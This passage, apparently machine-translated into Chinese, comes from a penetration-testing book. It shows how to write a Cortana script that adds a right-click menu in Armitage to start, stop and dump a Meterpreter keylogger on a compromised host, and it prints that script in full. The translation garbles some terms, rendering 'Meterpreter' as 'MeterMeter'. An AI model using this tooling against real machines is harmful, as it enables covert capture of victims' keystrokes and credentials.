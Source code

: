 一旦加载脚本，每隔`15`秒就会显示目标的用户 ID 和当前进程 ID。

有关 Cortana 中的后期开发、脚本和功能的更多信息，请参阅[http://www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf](http://www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf) 。

# 在 Cortana 中构建自定义菜单

Cortana 还提供了一个出色的输出，用于在获得 MeterMeter 会话和其他类型的会话后构建附加到主机的自定义弹出菜单。让我们使用 Cortana 构建一个自定义键盘记录器菜单，并通过分析以下脚本了解其工作原理：

```
popup meterpreter_bottom { 
menu "&My Key Logger" { 
item "&Start Key Logger" { 
m_cmd($1, "keyscan_start"); 
} 
item "&Stop Key Logger" { 
m_cmd($1, "keyscan_stop"); 
} 
item "&Show Keylogs" { 
m_cmd($1, "keyscan_dump"); 
} 
on meterpreter_keyscan_start { 
println(" $3 "); 
} 
on meterpreter_keyscan_stop { 
println(" $3 "); 
} 
on meterpreter_keyscan_dump { 
println(" $3 "); 
} 
} 
}
```

前面的示例显示如何在 MeterMeter 子菜单中创建弹出窗口。但是，只有当我们能够利用目标主机并成功获得 MeterMeter 外壳时，此弹出窗口才可用。

`popup`关键字将表示弹出窗口的创建。`meterpreter_bottom`功能将表示，每当用户右键单击被攻击主机并选择`Meterpreter`选项时，Armitage 将在底部显示此菜单。`item`关键字指定菜单中的各种项目。`m_cmd`命令是将 MeterMeter 命令及其各自的会话 ID 发送到 Metasploit 的命令。

因此，在前面的脚本中，我们有三项：启动键盘记录程序、停止键盘记录程序和显示键盘记录程序。它们分别用于启动键记录、停止键记录和显示日志中存在的数据。我们还声明了三个函数，它们将处理发送到 MeterMeter 的命令的输出。让我们将此脚本加载到 Cortana 中，利用该主机，右键单击受损主机，将显示以下菜单：

![](img/957b1aa2-bf28-492c-ba8f-c1db6e7d5da8.png)
